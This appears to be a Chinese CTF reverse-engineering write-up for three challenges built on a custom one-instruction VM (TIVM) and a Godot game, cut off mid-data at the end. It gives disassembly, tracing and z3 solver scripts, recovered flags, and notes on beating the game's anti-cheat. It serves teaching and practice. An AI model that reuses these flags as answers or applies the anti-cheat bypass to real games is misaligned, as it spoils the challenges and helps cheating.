0x01f4 put [#1f3]
0x01f7 jmp #1fb
0x01fa raw #72
0x01fb put [#1fa]
0x01fe jmp #202
0x0201 raw #65
0x0202 put [#201]
0x0205 jmp #209
0x0208 raw #20
0x0209 put [#208]
0x020c jmp #210
0x020f raw #69
0x0210 put [#20f]
0x0213 jmp #217
0x0216 raw #73
0x0217 put [#216]
0x021a jmp #21e
0x021d raw #20
0x021e put [#21d]
0x0221 jmp #225
0x0224 raw #79
0x0225 put [#224]
0x0228 jmp #22c
0x022b raw #6f
0x022c put [#22b]
0x022f jmp #233
0x0232 raw #75
0x0233 put [#232]
0x0236 jmp #23a
0x0239 raw #72
0x023a put [#239]
0x023d jmp #241
0x0240 raw #20
0x0241 put [#240]
0x0244 jmp #248
0x0247 raw #66
0x0248 put [#247]
0x024b jmp #24f
0x024e raw #6c
0x024f put [#24e]
0x0252 jmp #256
0x0255 raw #61
0x0256 put [#255]
0x0259 jmp #25d
0x025c raw #67
0x025d put [#25c]
0x0260 jmp #264
0x0263 raw #3a
0x0264 put [#263]
0x0267 jmp #26b
0x026a raw #a
0x026b put [#26a]
0x026e jmp #272
0x0271 raw #43
0x0272 put [#271]
0x0275 jmp #279
0x0278 raw #42
0x0279 put [#278]
0x027c jmp #280
0x027f raw #43
0x0280 put [#27f]
0x0283 jmp #287
0x0286 raw #54
0x0287 put [#286]
0x028a jmp #28e
0x028d raw #46
0x028e put [#28d]
0x0291 jmp #295
0x0294 raw #7b
0x0295 put [#294]
0x0298 jmp #29c
0x029b raw #57
0x029c put [#29b]
0x029f jmp #2a3
0x02a2 raw #33
0x02a3 put [#2a2]
0x02a6 jmp #2aa
0x02a9 raw #31
0x02aa put [#2a9]
0x02ad jmp #2b1
0x02b0 raw #63
0x02b1 put [#2b0]
0x02b4 jmp #2b8
0x02b7 raw #30
0x02b8 put [#2b7]
0x02bb jmp #2bf
0x02be raw #6d
0x02bf put [#2be]
0x02c2 jmp #2c6
0x02c5 raw #65
0x02c6 put [#2c5]
0x02c9 jmp #2cd
0x02cc raw #5f
0x02cd put [#2cc]
0x02d0 jmp #2d4
0x02d3 raw #74
0x02d4 put [#2d3]
0x02d7 jmp #2db
0x02da raw #6f
0x02db put [#2da]
0x02de jmp #2e2
0x02e1 raw #5f
0x02e2 put [#2e1]
0x02e5 jmp #2e9
0x02e8 raw #43
0x02e9 put [#2e8]
0x02ec jmp #2f0
0x02ef raw #38
0x02f0 put [#2ef]
0x02f3 jmp #2f7
0x02f6 raw #43
0x02f7 put [#2f6]
0x02fa jmp #2fe
0x02fd raw #54
0x02fe put [#2fd]
0x0301 jmp #305
0x0304 raw #46
0x0305 put [#304]
0x0308 jmp #30c
0x030b raw #32
0x030c put [#30b]
0x030f jmp #313
0x0312 raw #4f
0x0313 put [#312]
0x0316 jmp #31a
0x0319 raw #32
0x031a put [#319]
0x031d jmp #321
0x0320 raw #33
0x0321 put [#320]
0x0324 jmp #328
0x0327 raw #21
0x0328 put [#327]
0x032b jmp #32f
0x032e raw #21
0x032f put [#32e]
0x0332 jmp #336
0x0335 raw #21
0x0336 put [#335]
0x0339 jmp #33d
0x033c raw #7d
0x033d put [#33c]
0x0340 jmp #357
0x0343 raw #77
0x0344 raw #72
0x0345 raw #6f
0x0346 raw #6e
0x0347 raw #67
0x0348 put [#343]
0x034b put [#344]
0x034e put [#345]
0x0351 put [#346]
0x0354 put [#347]
0x0357 jmp #35b
0x035a raw #a
0x035b put [#35a]
```

这里还有一个 trick，jmp $+4 指令后有一个数据，这个往往是关键。

分析反汇编代码，发现有连续的 raw 和 put，这个是输出字符串。还有明显的 sub-jle，两个一组，这是因为 TIVM 指令有缺陷，必须用两个 jle 才能表示 jeq 或 jne。在 sub-jle 指令上方有单独的 raw ，表示比较的值。

可以知道 lucky number 是 114514，输入后获得 flag。

或者分析 put 和 jmp 混合部分的代码，提取 raw 也能获得 flag。

巧解：修改 run.py 中 ip 的初始值为 0x1b8，然后运行，直接获得 flag

## TIVM-Traceme

> I have to record this......

PE32，直接 IDA 打开


程序逻辑和 TIVM-Checkin 是一样的，反汇编请参阅上一篇。

```python
import tri_inst_decompiler
import struct

def bin2mem(bin : bytes) -> list[int]:
    size = len(bin)
    if (size % 4) != 0:
        size = ((size + 3) // 4) * 4
        bin = bin.ljust(size, b'\0')
    
    result = []
    for i in range(0, size, 4):
        block = bin[i:i+4]
        result.append(struct.unpack('<I', block)[0])
    return result

if __name__ == '__main__':
    data = bin2mem(open('traceme.bin', 'rb').read())
    dec = tri_inst_decompiler.TriInstDecompiler()

    dec.decompile(data, 'traceme.dec')
```

反汇编结果过长，这里只看关键部分。

```
......
0x008b jmp #8f
0x008e raw #0
0x008f jmp #4d9
0x0092 jmp #96
0x0095 raw #74
0x0096 jmp #9b
0x0099 raw #0
0x009a raw #0
0x009b sub [#99], [#99]
0x009e sub [#99], [#8e]
0x00a1 sub [#9a], [#9a]
0x00a4 sub [#9a], [#95]
0x00a7 sub-jle [#99], [#9a], #ad
0x00aa jmp #726
0x00ad sub [#9a], [#9a]
0x00b0 sub-jle [#9a], [#99], #b6
0x00b3 jmp #726
0x00b6 jmp #5c9
0x00b9 jmp #bd
0x00bc raw #35
0x00bd jmp #c2
0x00c0 raw #0
0x00c1 raw #0
0x00c2 sub [#c0], [#c0]
0x00c5 sub [#c0], [#8e]
0x00c8 sub [#c1], [#c1]
0x00cb sub [#c1], [#bc]
0x00ce sub-jle [#c0], [#c1], #d4
0x00d1 jmp #726
0x00d4 sub [#c1], [#c1]
0x00d7 sub-jle [#c1], [#c0], #dd
0x00da jmp #726
0x00dd jmp #40d
0x00e0 jmp #e4
0x00e3 raw #65
0x00e4 jmp #e9
0x00e7 raw #0
0x00e8 raw #0
0x00e9 sub [#e7], [#e7]
0x00ec sub [#e7], [#8e]
0x00ef sub [#e8], [#e8]
0x00f2 sub [#e8], [#e3]
0x00f5 sub-jle [#e7], [#e8], #fb
0x00f8 jmp #726
0x00fb sub [#e8], [#e8]
0x00fe sub-jle [#e8], [#e7], #104
0x0101 jmp #726
0x0104 jmp #269
0x0107 get [#8e]
0x010a jmp #3e0
0x010d get [#8e]
0x0110 jmp #242
0x0113 get [#8e]
0x0116 jmp #485
0x0119 jmp #11d
0x011c raw #43
0x011d jmp #122
0x0120 raw #0
0x0121 raw #0
0x0122 sub [#120], [#120]
0x0125 sub [#120], [#8e]
0x0128 sub [#121], [#121]
0x012b sub [#121], [#11c]
0x012e sub-jle [#120], [#121], #134
0x0131 jmp #726
0x0134 sub [#121], [#121]
0x0137 sub-jle [#121], [#120], #13d
0x013a jmp #726
0x013d jmp #407
0x0140 jmp #144
0x0143 raw #4d
0x0144 jmp #149
0x0147 raw #0
0x0148 raw #0
0x0149 sub [#147], [#147]
0x014c sub [#147], [#8e]
0x014f sub [#148], [#148]
0x0152 sub [#148], [#143]
0x0155 sub-jle [#147], [#148], #15b
0x0158 jmp #726
0x015b sub [#148], [#148]
0x015e sub-jle [#148], [#147], #164
0x0161 jmp #726
0x0164 jmp #413
0x0167 jmp #16b
0x016a raw #5f
0x016b jmp #170
0x016e raw #0
0x016f raw #0
0x0170 sub [#16e], [#16e]
0x0173 sub [#16e], [#8e]
0x0176 sub [#16f], [#16f]
0x0179 sub [#16f], [#16a]
0x017c sub-jle [#16e], [#16f], #182
0x017f jmp #726
0x0182 sub [#16f], [#16f]
0x0185 sub-jle [#16f], [#16e], #18b
0x0188 jmp #726
0x018b jmp #61a
0x018e get [#8e]
0x0191 jmp #2c3
0x0194 get [#8e]
0x0197 jmp #e0
0x019a jmp #19e
0x019d raw #5f
0x019e jmp #1a3
0x01a1 raw #0
0x01a2 raw #0
0x01a3 sub [#1a1], [#1a1]
0x01a6 sub [#1a1], [#8e]
0x01a9 sub [#1a2], [#1a2]
0x01ac sub [#1a2], [#19d]
0x01af sub-jle [#1a1], [#1a2], #1b5
0x01b2 jmp #726
0x01b5 sub [#1a2], [#1a2]
0x01b8 sub-jle [#1a2], [#1a1], #1be
0x01bb jmp #726
0x01be jmp #44c
0x01c1 get [#8e]
0x01c4 jmp #3b9
0x01c7 jmp #1cb
0x01ca raw #32
0x01cb jmp #1d0
0x01ce raw #0
0x01cf raw #0
0x01d0 sub [#1ce], [#1ce]
0x01d3 sub [#1ce], [#8e]
0x01d6 sub [#1cf], [#1cf]
0x01d9 sub [#1cf], [#1ca]
0x01dc sub-jle [#1ce], [#1cf], #1e2
0x01df jmp #726
0x01e2 sub [#1cf], [#1cf]
0x01e5 sub-jle [#1cf], [#1ce], #1eb
0x01e8 jmp #726
0x01eb jmp #65f
0x01ee jmp #1f2
0x01f1 raw #49
0x01f2 jmp #1f7
0x01f5 raw #0
0x01f6 raw #0
0x01f7 sub [#1f5], [#1f5]
0x01fa sub [#1f5], [#8e]
0x01fd sub [#1f6], [#1f6]
0x0200 sub [#1f6], [#1f1]
0x0203 sub-jle [#1f5], [#1f6], #209
0x0206 jmp #726
0x0209 sub [#1f6], [#1f6]
0x020c sub-jle [#1f6], [#1f5], #212
0x020f jmp #726
0x0212 jmp #2ea
0x0215 jmp #219
0x0218 raw #7b
0x0219 jmp #21e
0x021c raw #0
0x021d raw #0
0x021e sub [#21c], [#21c]
0x0221 sub [#21c], [#8e]
0x0224 sub [#21d], [#21d]
0x0227 sub [#21d], [#218]
0x022a sub-jle [#21c], [#21d], #230
0x022d jmp #726
0x0230 sub [#21d], [#21d]
0x0233 sub-jle [#21d], [#21c], #239
0x0236 jmp #726
0x0239 jmp #5d5
0x023c get [#8e]
0x023f jmp #1ee
0x0242 jmp #246
0x0245 raw #65
0x0246 jmp #24b
0x0249 raw #0
0x024a raw #0
0x024b sub [#249], [#249]
0x024e sub [#249], [#8e]
0x0251 sub [#24a], [#24a]
0x0254 sub [#24a], [#245]
0x0257 sub-jle [#249], [#24a], #25d
0x025a jmp #726
0x025d sub [#24a], [#24a]
0x0260 sub-jle [#24a], [#249], #266
0x0263 jmp #726
0x0266 jmp #665
0x0269 get [#8e]
0x026c jmp #317
0x026f jmp #273
0x0272 raw #61
0x0273 jmp #278
0x0276 raw #0
0x0277 raw #0
0x0278 sub [#276], [#276]
0x027b sub [#276], [#8e]
0x027e sub [#277], [#277]
0x0281 sub [#277], [#272]
0x0284 sub-jle [#276], [#277], #28a
0x0287 jmp #726
0x028a sub [#277], [#277]
0x028d sub-jle [#277], [#276], #293
0x0290 jmp #726
0x0293 jmp #440
0x0296 jmp #29a
0x0299 raw #43
0x029a jmp #29f
0x029d raw #0
0x029e raw #0
0x029f sub [#29d], [#29d]
0x02a2 sub [#29d], [#8e]
0x02a5 sub [#29e], [#29e]
0x02a8 sub [#29e], [#299]
0x02ab sub-jle [#29d], [#29e], #2b1
0x02ae jmp #726
0x02b1 sub [#29e], [#29e]
0x02b4 sub-jle [#29e], [#29d], #2ba
0x02b7 jmp #726
0x02ba jmp #446
0x02bd get [#8e]
0x02c0 jmp #554
......
```

中间部分，能明显看出结构，分为 get 语句块和 check 语句块，结尾都是跳转。执行顺序被打乱了，需要分析程序流或者 trace 执行追踪。

巧解：修改虚拟机解释器，输出所有 jmp $+4 语句的数据。

```python
import struct

buf = []
def getchar():
    global buf
    while len(buf) <= 0:
        buf = list(input().encode())
        buf.append(0x0a)
    return buf.pop(0)

def bin2mem(bin : bytes) -> list[int]:
    size = len(bin)
    if (size % 4) != 0:
        size = ((size + 3) // 4) * 4
        bin = bin.ljust(size, b'\0')
    
    result = []
    for i in range(0, size, 4):
        block = bin[i:i+4]
        result.append(struct.unpack('<I', block)[0])
    return result

def run():
    # 保存追踪数据
    trace_rec = []

    # mem = eval(open('checkin.tricode', 'r').read())
    mem = bin2mem(open('traceme.bin', 'rb').read())
    ip = 0
    size = len(mem)
    while ip + 2 < size:
        a1 = mem[ip]
        a2 = mem[ip + 1]
        a3 = mem[ip + 2]
        next_jump = ip + 3

        if a2 & 0x80000000 != 0:
            print(chr(mem[a1]), end='')
        elif a1 & 0x80000000 != 0:
            mem[a2] = getchar()
        else:
            mem[a2] = (mem[a2] - mem[a1]) & 0xffffffff
            # 修改跳转条件避免提前退出
            # if mem[a2] == 0 or mem[a2] & 0x80000000 != 0:
            #     next_jump = a3
            next_jump = a3
        
        # 输出所有jmp $+4
        if a3 == ip + 4:
            trace_rec.append(mem[ip + 3])

        ip = next_jump

    # 输出追踪数据
    print(bytes(trace_rec))
    
if __name__ == "__main__":
    run()
```

## TIVM-Mmmmmultiply

> Repeat repeat repeat repeat repeat.

这次只有一个文件，PE32，IDA 启动！


还是原来的配方，还是熟悉的味道，先导出数据。


从 character 开始到 004071FF，导出为 raw bytes


然后反编译，反编译请参阅 TIVM-Checkin。

```python
import tri_inst_decompiler
import struct

def bin2mem(bin : bytes) -> list[int]:
    size = len(bin)
    if (size % 4) != 0:
        size = ((size + 3) // 4) * 4
        bin = bin.ljust(size, b'\0')
    
    result = []
    for i in range(0, size, 4):
        block = bin[i:i+4]
        result.append(struct.unpack('<I', block)[0])
    return result

if __name__ == '__main__':
    data = bin2mem(open('export_results.txt', 'rb').read())
    dec = tri_inst_decompiler.TriInstDecompiler()

    dec.decompile(data, 'multi.dec')
```

代码非常长，这里只截取片段。首先输出字符串，然后输入 36 个字符，之后是连续的 sub 和 check。

```
......
0x0311 jmp #315
0x0314 raw #fffff8ef
0x0315 jmp #31a
0x0318 raw #0
0x0319 raw #0
0x031a sub [#318], [#318]
0x031d sub [#318], [#2c5]
0x0320 sub [#319], [#319]
0x0323 sub [#319], [#314]
0x0326 sub-jle [#318], [#319], #32c
0x0329 jmp #1052
0x032c sub [#319], [#319]
0x032f sub-jle [#319], [#318], #335
0x0332 jmp #1052
0x0335 jmp #339
0x0338 raw #0
0x0339 sub [#338], [#3]
0x033c sub [#338], [#4]
0x033f sub [#338], [#4]
0x0342 sub [#338], [#4]
0x0345 sub [#338], [#4]
0x0348 sub [#338], [#5]
0x034b sub [#338], [#5]
0x034e sub [#338], [#5]
0x0351 sub [#338], [#5]
0x0354 sub [#338], [#6]
0x0357 sub [#338], [#6]
0x035a sub [#338], [#7]
0x035d sub [#338], [#8]
0x0360 jmp #364
0x0363 raw #fffffc40
0x0364 jmp #369
0x0367 raw #0
0x0368 raw #0
0x0369 sub [#367], [#367]
0x036c sub [#367], [#338]
0x036f sub [#368], [#368]
0x0372 sub [#368], [#363]
0x0375 sub-jle [#367], [#368], #37b
0x0378 jmp #1052
0x037b sub [#368], [#368]
0x037e sub-jle [#368], [#367], #384
0x0381 jmp #1052
0x0384 jmp #388
0x0387 raw #0
0x0388 sub [#387], [#3]
0x038b sub [#387], [#3]
0x038e sub [#387], [#3]
0x0391 sub [#387], [#3]
0x0394 sub [#387], [#3]
0x0397 sub [#387], [#3]
0x039a sub [#387], [#4]
0x039d sub [#387], [#4]
0x03a0 sub [#387], [#6]
0x03a3 sub [#387], [#6]
0x03a6 sub [#387], [#6]
0x03a9 sub [#387], [#6]
0x03ac sub [#387], [#7]
0x03af sub [#387], [#7]
0x03b2 sub [#387], [#7]
0x03b5 sub [#387], [#7]
0x03b8 sub [#387], [#7]
0x03bb sub [#387], [#7]
0x03be sub [#387], [#8]
0x03c1 sub [#387], [#8]
0x03c4 jmp #3c8
0x03c7 raw #fffffa00
0x03c8 jmp #3cd
0x03cb raw #0
0x03cc raw #0
0x03cd sub [#3cb], [#3cb]
0x03d0 sub [#3cb], [#387]
0x03d3 sub [#3cc], [#3cc]
0x03d6 sub [#3cc], [#3c7]
0x03d9 sub-jle [#3cb], [#3cc], #3df
0x03dc jmp #1052
0x03df sub [#3cc], [#3cc]
0x03e2 sub-jle [#3cc], [#3cb], #3e8
0x03e5 jmp #1052
0x03e8 jmp #3ec
0x03eb raw #0
0x03ec sub [#3eb], [#a]
0x03ef sub [#3eb], [#a]
0x03f2 sub [#3eb], [#a]
0x03f5 sub [#3eb], [#a]
0x03f8 sub [#3eb], [#a]
0x03fb sub [#3eb], [#b]
0x03fe sub [#3eb], [#b]
0x0401 sub [#3eb], [#b]
0x0404 sub [#3eb], [#b]
0x0407 sub [#3eb], [#b]
0x040a sub [#3eb], [#c]
0x040d sub [#3eb], [#c]
0x0410 sub [#3eb], [#d]
0x0413 sub [#3eb], [#d]
0x0416 sub [#3eb], [#d]
0x0419 sub [#3eb], [#d]
0x041c sub [#3eb], [#d]
0x041f sub [#3eb], [#d]
0x0422 sub [#3eb], [#d]
0x0425 sub [#3eb], [#e]
0x0428 sub [#3eb], [#e]
0x042b sub [#3eb], [#e]
0x042e sub [#3eb], [#e]
0x0431 sub [#3eb], [#e]
0x0434 sub [#3eb], [#e]
0x0437 jmp #43b
0x043a raw #fffff613
0x043b jmp #440
0x043e raw #0
0x043f raw #0
0x0440 sub [#43e], [#43e]
0x0443 sub [#43e], [#3eb]
0x0446 sub [#43f], [#43f]
0x0449 sub [#43f], [#43a]
0x044c sub-jle [#43e], [#43f], #452
0x044f jmp #1052
0x0452 sub [#43f], [#43f]
0x0455 sub-jle [#43f], [#43e], #45b
0x0458 jmp #1052
0x045b jmp #45f
0x045e raw #0
0x045f sub [#45e], [#9]
0x0462 sub [#45e], [#9]
0x0465 sub [#45e], [#9]
0x0468 sub [#45e], [#9]
0x046b sub [#45e], [#9]
0x046e sub [#45e], [#a]
0x0471 sub [#45e], [#b]
0x0474 sub [#45e], [#b]
0x0477 sub [#45e], [#b]
0x047a sub [#45e], [#b]
0x047d sub [#45e], [#b]
0x0480 sub [#45e], [#c]
0x0483 sub [#45e], [#c]
0x0486 sub [#45e], [#c]
0x0489 sub [#45e], [#c]
0x048c sub [#45e], [#d]
0x048f sub [#45e], [#d]
0x0492 sub [#45e], [#d]
0x0495 sub [#45e], [#d]
0x0498 sub [#45e], [#d]
0x049b sub [#45e], [#d]
0x049e sub [#45e], [#e]
0x04a1 sub [#45e], [#e]
0x04a4 sub [#45e], [#e]
0x04a7 jmp #4ab
0x04aa raw #fffff71b
0x04ab jmp #4b0
0x04ae raw #0
0x04af raw #0
0x04b0 sub [#4ae], [#4ae]
0x04b3 sub [#4ae], [#45e]
0x04b6 sub [#4af], [#4af]
0x04b9 sub [#4af], [#4aa]
0x04bc sub-jle [#4ae], [#4af], #4c2
0x04bf jmp #1052
0x04c2 sub [#4af], [#4af]
0x04c5 sub-jle [#4af], [#4ae], #4cb
0x04c8 jmp #1052
0x04cb jmp #4cf
0x04ce raw #0
0x04cf sub [#4ce], [#9]
0x04d2 sub [#4ce], [#a]
0x04d5 sub [#4ce], [#b]
0x04d8 sub [#4ce], [#b]
0x04db sub [#4ce], [#b]
0x04de sub [#4ce], [#b]
0x04e1 sub [#4ce], [#b]
0x04e4 sub [#4ce], [#b]
0x04e7 sub [#4ce], [#c]
0x04ea sub [#4ce], [#c]
0x04ed sub [#4ce], [#c]
0x04f0 sub [#4ce], [#c]
0x04f3 sub [#4ce], [#d]
0x04f6 sub [#4ce], [#d]
0x04f9 sub [#4ce], [#e]
0x04fc sub [#4ce], [#e]
0x04ff sub [#4ce], [#e]
0x0502 sub [#4ce], [#e]
0x0505 sub [#4ce], [#e]
0x0508 sub [#4ce], [#e]
0x050b jmp #50f
0x050e raw #fffff7f7
0x050f jmp #514
0x0512 raw #0
0x0513 raw #0
0x0514 sub [#512], [#512]
0x0517 sub [#512], [#4ce]
0x051a sub [#513], [#513]
0x051d sub [#513], [#50e]
0x0520 sub-jle [#512], [#513], #526
0x0523 jmp #1052
0x0526 sub [#513], [#513]
0x0529 sub-jle [#513], [#512], #52f
0x052c jmp #1052
0x052f jmp #533
0x0532 raw #0
0x0533 sub [#532], [#9]
0x0536 sub [#532], [#9]
0x0539 sub [#532], [#9]
0x053c sub [#532], [#9]
0x053f sub [#532], [#9]
......
```

从[#3]开始的内存是输入的 flag，片段中连续减去一个值就等于是乘上一个值。分析发现这个比较像矩阵乘法。

考虑用 re 模块做模式匹配提取数据。模式为 sub [?], [%INP+?]，第二个参数限定范围在 0x3 到 0x26

```python
import re

if __name__ == '__main__':
    result = []
    this_round = [0] * 6

    for line in open('multi.dec', 'r').readlines():
        match = re.match('0x.... sub \[.+?\], \[\#(.+?)\].?', line)
        if match is not None:
            t = int(match.group(1), base=16)
            if t < 0x03 or t > 0x26:
                continue
            t = (t - 3) % 6
            this_round[t] += 1
        elif sum(this_round) != 0:
            result.append(this_round)
            this_round = [0] * 6
    
    print(result)
```


然后提取 ans


是负值且前有 jmp $+4

```python
import struct

buf = []
def getchar():
    global buf
    while len(buf) <= 0:
        buf = list(input().encode())
        buf.append(0x0a)
    return buf.pop(0)

def bin2mem(bin : bytes) -> list[int]:
    size = len(bin)
    if (size % 4) != 0:
        size = ((size + 3) // 4) * 4
        bin = bin.ljust(size, b'\0')
    
    result = []
    for i in range(0, size, 4):
        block = bin[i:i+4]
        result.append(struct.unpack('<I', block)[0])
    return result

def run():
    # 保存追踪数据
    trace_rec = []

    # mem = eval(open('checkin.tricode', 'r').read())
    mem = bin2mem(open('export_results.txt', 'rb').read())
    ip = 0
    size = len(mem)
    while ip + 2 < size:
        a1 = mem[ip]
        a2 = mem[ip + 1]
        a3 = mem[ip + 2]
        next_jump = ip + 3

        if a2 & 0x80000000 != 0:
            print(chr(mem[a1]), end='')
        elif a1 & 0x80000000 != 0:
            mem[a2] = getchar()
        else:
            mem[a2] = (mem[a2] - mem[a1]) & 0xffffffff
            # 修改跳转条件避免提前退出
            # if mem[a2] == 0 or mem[a2] & 0x80000000 != 0:
            #     next_jump = a3
            next_jump = a3
        
        # 输出所有jmp $+4
        if a3 == ip + 4:
            trace_rec.append(mem[ip + 3])

        ip = next_jump

    # 输出追踪数据
    print(trace_rec)
    
if __name__ == "__main__":
    run()
```


从下标 1 开始间隔出现。这里的 ans 是取反的。

有了数据之后 z3 求解，也可以用 numpy 做矩阵求逆。

```python
from z3 import *

ans = [0, 4294965235, 0, 4294965435, 0, 4294965547, 0, 4294965487, 0, 4294966336, 0, 4294965760, 0, 4294964755, 0, 4294965019, 0, 4294965239, 0, 4294964990, 0, 4294966002, 0, 4294965446, 0, 4294964691, 0, 4294964855, 0, 4294965303, 0, 4294964687, 0, 4294965940, 0, 4294965212, 0, 4294964852, 0, 4294965028, 0, 4294965239, 0, 4294965239, 0, 4294966186, 0, 4294965512, 0, 4294965161, 0, 4294965253, 0, 4294965799, 0, 4294964978, 0, 4294966098, 0, 4294965562, 0, 4294965159, 0, 4294965129, 0, 4294965502, 0, 4294965174, 0, 4294966376, 0, 4294965344, 10]
ans = ans[1::2]
ans = [0x100000000 - x for x in ans]

key = [[0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2], [0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2], [0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2], [0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2], [0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2], [0, 5, 5, 2, 7, 6], [5, 1, 5, 4, 6, 3], [1, 1, 6, 4, 2, 6], [7, 5, 3, 4, 5, 1], [1, 4, 4, 2, 1, 1], [6, 2, 0, 4, 6, 2]]

flag = [Int('x%d' % x) for x in range(36)]

s = Solver()

for i in range(6):
    inp_shift = i * 6
    for j in range(6):
        k = i * 6 + j
        
        t = 0
        for m in range(6):
            t += flag[inp_shift + m] * key[k][m]
        s.add(t == ans[k])

if s.check() == sat:
    m = s.model()
    # print(m)
    for x in flag:
        res = m.eval(x)
        print(res, end=', ')
    print()

# flag = [67, 66, 67, 84, 70, 123, 66, 101, 97, 116, 95, 109, 97, 116, 95, 105, 110, 95, 51, 54, 95, 119, 111, 114, 100, 115, 95, 56, 97, 49, 100, 50, 48, 102, 99, 125, ]
# print(bytes(flag))
```

## Ezgame

> 简单好玩的游戏，听说只要分数够高就能获得 flag？

出题者注：做游戏只是为了炫技，但游戏意外地好玩。本题重点不在加解密，而是游戏反作弊。在该游戏项目中有基于 godot EngineDebugger 和 debug 异常处理的反引擎调试，以及使用随机数实现的内存保护。

附件有一个 exe 和一个 pck


显然游戏是用 godot 引擎实现的。使用 GDRE 可以解包 pck 文件。

[https://github.com/bruvzg/gdsdecomp](https://github.com/bruvzg/gdsdecomp)


在菜单 RE Tools>Recover project，选择 pck 文件，导出到空文件夹。

可以使用 godot 编辑器（版本 4.1）打开导出的项目以编辑。

关键代码在 ScoreBoard_shelled.gd（数据较长仅展示部分）


在_ready 函数对 aaa 进行解密，并且载入到 GDScript。先解密这个数据，也可以在编辑器调试获得解密后的数据。

```python
def decrypt(data : list[int], sbox : list[int]) -> list[int]:
    result = data.copy()
    buf = sbox.copy()

    for i in range(len(result)):
        t = result[i]
        result[i] = buf[t]
        buf[t], buf[result[i]] = buf[result[i]], buf[t]
    
    return result

if __name__ == "__main__":
    aaa = [55, 65, 245, 101, 2, 50, 172, 40, 36, 228, 207, 101, 176, 206, 10, 22, 174, 110, 115, 116, 32, 6, 45, 122, 147, 133, 5, 32, 147, 32, 244, 241, 47, 79, 82, 9, 113, 200, 169, 73, 146, 100, 212, 120, 37, 48, 49, 160, 211, 249, 17, 34, 10, 10, 179, 97, 171, 32, 150, 115, 99, 111, 114, 101, 32, 58, 32, 185, 110, 116, 32, 61, 32, 48, 10, 118, 97, 114, 32, 95, 33, 103, 108, 116, 105, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 199, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 124, 111, 253, 32, 58, 32, 102, 108, 111, 97, 116, 32, 61, 32, 48, 46, 48, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 115, 109, 111, 111, 116, 104, 32, 58, 32, 105, 110, 116, 32, 61, 32, 48, 10, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 72, 101, 220, 32, 58, 32, 105, 110, 116, 10, 118, 97, 114, 32, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 58, 32, 105, 110, 116, 10, 10, 102, 117, 110, 99, 32, 95, 114, 101, 97, 100, 121, 40, 41, 58, 10, 106, 56, 114, 105, 110, 116, 40, 38, 104, 101, 108, 108, 111, 39, 41, 10, 9, 162, 101, 116, 95, 110, 111, 100, 101, 40, 34, 143, 114, 111, 111, 116, 47, 253, 111, 100, 101, 50, 122, 34, 41, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 97, 100, 100, 95, 115, 99, 111, 114, 101, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 111, 118, 101, 114, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 103, 97, 109, 101, 95, 111, 118, 101, 114, 41, 10, 9, 103, 101, 116, 95, 110, 111, 100, 101, 40, 34, 47, 114, 111, 111, 116, 47, 78, 111, 100, 101, 50, 68, 34, 41, 46, 103, 97, 109, 101, 95, 114, 101, 115, 116, 97, 114, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 115, 101, 108, 102, 46, 95, 111, 110, 95, 114, 101, 115, 116, 97, 114, 116, 41, 10, 9, 10, 9, 114, 97, 110, 100, 111, 109, 105, 13, 101, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 32, 61, 32, 114, 97, 110, 100, 105, 40, 41, 10, 9, 95, 115, 99, 111, 114, 101, 95, 99, 104, 101, 99, 107, 32, 61, 32, 95, 115, 99, 111, 114, 101, 32, 7, 32, 95, 115, 99, 111, 114, 101, 95, 107, 101, 121, 10, 10, 102, 117, 110, 99, 32, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 208, 32, 95, 103, 101, 116, 95, 115, 99, 111, 114, 101, 40, 41, 44, 32, 48, 46, 48, 123, 41, 10, 9, 115, 101, 108, 102, 46, 116, 101, 120, 116, 32, 61, 32, 70, 79, 82, 77, 65, 84, 32, 37, 32, 234, 102, 108, 111, 111, 114, 102, 40, 95, 115, 99, 111, 114, 101, 95, 115, 104, 111, 119, 32, 90, 32, 48, 46, 49, 41, 44, 32, 95, 103, 101, 116, 95, 109, 117, 108, 116, 105, 40, 41, 200, 10, 10, 102, 117, 110, 99, 32, 95, 112, 104, 121, 115, 105, 99, 115, 95, 112, 114, 111, 99, 101, 115, 115, 40, 100, 101, 108, 116, 97, 41, 58, 10, 9, 95, 116, 114, 97, 112, 40, 41, 10, 9, 95, 109, 117, 108, 116, 105, 32, 61, 32, 108, 101, 114, 112, 102, 40, 95, 109, 117, 108, 116, 105, 44, 32, 53, 46, 48, 44, 32, 100, 101, 108, 116, 97, 41, 10, 9, 115, 101, 108, 102, 46, 115, 